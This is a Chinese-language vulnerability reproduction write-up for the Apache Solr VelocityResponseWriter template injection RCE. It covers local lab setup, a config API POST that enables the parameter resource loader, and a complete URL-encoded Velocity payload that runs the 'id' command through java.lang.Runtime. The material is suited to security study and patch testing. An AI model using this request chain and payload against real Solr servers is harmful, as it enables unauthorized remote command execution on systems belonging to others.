 ```yaml
---
typora-copy-images-to: image
typora-root-url: image
---
```


# Apache Solr Velocity模板注入RCE漏洞复现

## 一、前言

Solr是一个独立的企业级搜索应用服务器,它对外提供类似于web-service的API接口,用户可以通过http请求,向搜索引擎服务器提交一定格式的XML文件,生成索引,也可以通过http get操作提出查找请求,并得到XML格式的返回结果。

## 二、漏洞描述

该漏洞的产生是由于两方面的原因：

当攻击者可以直接访问Solr控制台时，可以通过发送类似/节点名/config的POST请求对该节点的配置文件做更改。

Apache Solr默认集成VelocityResponseWriter插件，在该插件的初始化参数中的params.resource.loader.enabled这个选项是用来控制是否允许参数资源加载器在Solr请求参数中指定模版，默认设置是false。
当设置params.resource.loader.enabled为true时，将允许用户通过设置请求中的参数来指定相关资源的加载，这也就意味着攻击者可以通过构造一个具有威胁的攻击请求，在服务器上进行命令执行。（来自360CERT）

## 三、影响范围

Apache Solr 5.x - 8.2.0，存在config API版本

四、环境搭建

下载地址

https://mirrors.tuna.tsinghua.edu.cn/apache/lucene/solr/

解压压缩包，启动solr

![1573479758591](1573479758591.png)

访问http://127.0.0.1:8983/solr/#/~cores/new_core，添加new_core

![](1573479895996.png)



## 四、漏洞复现

获取core名称

访问http://127.0.0.1:8983/solr/admin/cores?wt=json&indexInfo=false

![1573480278213](image\1573480278213.png)

Apache Solr默认集成VelocityResponseWriter插件，该插件初始化参数中的params.resource.loader.enabled默认值设置为false，但是可以通过POST请求直接修改集合设置，将其设置为true，然后就可以构造特殊的GET请求来实现远程代码执行。

![1573482066083](\image\1573482066083.png)

post以下数据，返回200响应码

        {
            "update-queryresponsewriter": {
            "startup": "lazy",
            "name": "velocity",
            "class": "solr.VelocityResponseWriter",
            "template.base.dir": "",
            "solr.resource.loader.enabled": "true",
            "params.resource.loader.enabled": "true"
            }
        }
![1573482566107](image\1573482566107.png)

构造paloayer实现rce:

[http://127.0.0.1:8983/solr/new_core/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%22id%22))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()\])$str.valueOf($chr.toChars($out.read()))%23end](http://127.0.0.1:8983/solr/new_core/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x='')+%23set($rt=$x.class.forName('java.lang.Runtime'))+%23set($chr=$x.class.forName('java.lang.Character'))+%23set($str=$x.class.forName('java.lang.String'))+%23set($ex=$rt.getRuntime().exec("id"))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end)

![1573482681109](image\1573482681109.png)